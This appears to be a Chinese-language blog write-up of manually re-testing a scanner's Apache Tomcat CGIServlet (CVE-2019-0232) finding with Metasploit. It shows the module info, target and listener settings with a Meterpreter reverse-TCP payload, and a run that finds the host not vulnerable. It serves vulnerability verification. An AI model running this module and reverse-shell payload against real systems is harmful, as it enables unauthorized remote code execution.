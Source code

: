 ```yaml
---
title: Sample Page
published: true
---
```


## Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

针对极光扫描器探测出的tomcat漏洞进行一次`手工复测`.


### 所用到的工具  

| 序号       | 工具名称          | 测试方式 |
|:-------------|:------------------|:------|
| 1         | MSF | 手动  |

#### 目标网站分析
目标所使用的中间件采用`Apache Tomcat/7.0.82`

![](https://github.com/cer1vk/cer1vk.github.io/blob/cer1vk/_posts/%E7%9B%AE%E6%A0%87%E7%BD%91%E7%AB%99%E7%9A%84%E4%B8%AD%E9%97%B4%E4%BB%B6%E4%BF%A1%E6%81%AF.png)

#### 准备

* 工具库查看

> msf5 > search Rank:excellent name:tomcat
> 3  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

#### 载荷info
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > info

       Name: Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
     Module: exploit/windows/http/tomcat_cgi_cmdlineargs
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-10

Provided by:
  Yakov Shafranovich
  sinn3r <sinn3r@metasploit.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Apache Tomcat 9.0 or prior for Windows

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      8080             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path to CGI script
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits a vulnerability in Apache Tomcat's CGIServlet
  component. When the enableCmdLineArguments setting is set to true, a
  remote user can abuse this to execute system commands, and gain
  remote code execution.

References:
  https://cvedetails.com/cve/CVE-2019-0232/
  https://wwws.nightwatchcybersecurity.com/2019/04/30/remote-code-execution-rce-in-cgi-servlet-apache-tomcat-on-windows-cve-2019-0232/
  https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/

```
#### 分析和利用
> Platform: Windows
> Arch: x86, x64 //符合64位处理器要求
1. 填充目标地址`RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'`  
2. 填充目标端口`RPORT      8080             yes       The target port (TCP)`,这里的端口改用实际的项目端口8181.

---  
设定目标参数和HK机参数,然后开始:

***目标机配置如下:***

    Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.71.18.235     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8181             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host

***HK机配置如下:***
```ruby
    Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.71.70.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

---  

#### 验证结果
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run

[*] Started reverse TCP handler on 10.71.70.102:4444
[*] Checking if 10.71.18.235 is vulnerable
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable. Set ForceExploit to override.
[*] Exploit completed, but no session was created.
```
exp验证不通过.*说明目标不存在该漏洞*




#### 目标状态
![](https://github.com/cer1vk/cer1vk.github.io/blob/cer1vk/_posts/ndcims%E9%AA%8C%E8%AF%81%E5%90%8E%E7%BD%91%E7%AB%99%E7%8A%B6%E6%80%81.png)


### 总结

针对漏洞扫描器给出的漏洞分析结果,对于精确度还是存疑的,这时候需要手工进行一次`POC`或者`EXP`验证.如果验证的结果没能获取起初希望看到的效果,说明当下目标漏洞不可利用.

